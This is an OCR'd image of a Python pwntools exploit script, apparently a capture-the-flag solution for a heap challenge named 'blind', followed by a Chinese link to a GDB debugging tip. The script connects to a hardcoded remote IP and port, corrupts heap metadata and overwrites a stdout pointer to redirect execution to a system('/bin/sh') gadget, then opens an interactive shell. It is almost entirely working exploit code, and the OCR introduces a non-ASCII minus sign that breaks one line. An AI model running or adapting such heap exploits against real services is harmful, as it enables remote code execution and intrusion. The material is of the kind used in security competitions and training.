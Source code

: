 ```python
    p.recvuntil('Choice:')
    p.sendline('3')
    p.recvuntil('Index:')
    p.sendline(str(idx))

p = remote('106.75.20.44', 9999)
# p = process('./blind')
stdout = 0x602020
ptr_base = 0x602060
system_bin_sh = 0x4008E3
field = 0x602100
s = [0, 0, 0, field+0x100]
new(p, 0, '')
release(p, 0)
change(p, 0, p64(0x602045 ‐ 0x8))
new(p, 1, '')
payload = 'a'*0x13 + p64(ptr_base) \
+ p64(field) \
+ p64(field+0x70) \
+ p64(field+0xc0) \
+ p64(field+0x100) \
+ p64(stdout)
payload = payload.ljust(0x60, '\x00')
new(p, 5, payload)
change(p, 1, '')
change(p, 2, flat(s))
change(p, 3, flat(s))
change(p, 4, p64(0)*7 + p64(system_bin_sh))
change(p, 5, p64(field))
p.interactive()
```

小技巧：[一个 GDB 调试技巧：修改程序的标准输入 ](https://www.jianshu.com/p/78e77277ebb5) 